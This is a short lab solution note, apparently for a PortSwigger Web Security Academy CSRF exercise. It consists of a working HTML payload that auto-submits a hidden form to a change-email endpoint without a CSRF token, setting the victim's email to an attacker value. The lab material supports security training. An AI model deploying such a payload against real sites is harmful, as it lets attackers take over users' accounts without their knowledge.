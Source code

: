 # Lab

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

## Payload


```html
<html>
    <body>
        <script>
            history.pushState('', '', '/');
        </script>
        <form action="https://0ac600f00406842a825c078200170062.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@sa.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```